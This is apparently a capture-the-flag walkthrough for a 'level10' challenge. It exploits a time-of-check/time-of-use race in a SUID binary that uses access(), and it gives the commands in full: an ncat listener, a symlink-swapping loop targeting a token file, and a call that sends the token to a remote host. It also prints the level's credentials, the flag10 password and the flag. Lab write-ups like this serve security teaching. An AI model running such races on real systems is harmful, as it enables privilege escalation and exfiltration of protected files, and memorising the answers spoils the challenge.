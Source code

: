 username: level10
password: s5cAJpM8ev6XHw998pRWG728z
---

`./level10` takes two arguments `file` and `host`, it checks if the user  running it can read `file` using access(), then sends its content to `host` if listenning on port 6969, `access()` function doesn't care about SUID bit

Started a listener on port 6969 on our main machine

```
ncat -klnp 6969
```

Then on SSH we ran the following commands

```
touch /tmp/a
while :; do ln -fs /tmp/a /tmp/b ; ln -fs /home/user/level10/token /tmp/b; done &
./level10 /tmp/b 10.14.1.1
```

You might need to run the last comman multiple times before receiving the token on the listener

flag10's password: woupa2yuojeeaaed06riuj63c

To get the flag run the following

```
su flag10 -c getflag
```

The flag is: feulo4b72j7edeahuete3no7c
